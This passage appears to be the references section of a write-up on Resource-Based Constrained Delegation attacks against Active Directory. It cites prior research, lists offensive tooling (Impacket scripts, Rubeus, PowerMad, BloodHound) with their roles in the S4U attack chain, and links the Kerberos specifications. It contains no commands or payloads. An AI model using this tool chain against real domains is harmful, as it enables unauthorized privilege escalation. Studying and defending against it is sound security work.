- Elad Shamir — "Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory" (2019); introduced RBCD as an attacker primitive, described the MachineAccountQuota abuse path, and coined the standard attack terminology used across tooling
- harmj0y — "Kerberos Revisited" (2017); foundational analysis of S4U2Self and S4U2Proxy mechanics that underpins all constrained delegation attack tooling

### Tools
- [Impacket](https://github.com/fortra/impacket) — Python library and scripts; `addcomputer.py` (machine account creation), `rbcd.py` (attribute read/write/remove), `getST.py` (S4U2Self + S4U2Proxy chain), `psexec.py` / `smbclient.py` / `wmiexec.py` (ticket use)
- [Rubeus](https://github.com/GhostPack/Rubeus) — C# Kerberos toolkit; `s4u` action handles the full S4U chain with `/ptt` injection
- [PowerMad](https://github.com/Kevin-Robertson/Powermad) — PowerShell module for machine account creation and manipulation without admin rights
- [BloodHound](https://github.com/BloodHoundAD/BloodHound) — AD attack-path analysis; enumerates GenericWrite / GenericAll edges to computer objects and visualises delegation abuse paths

### Specifications
- [RFC 4120 — The Kerberos Network Authentication Service (V5)](https://www.rfc-editor.org/rfc/rfc4120)
- [MS-SFU — Kerberos Protocol Extensions: Service for User and Constrained Delegation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/)
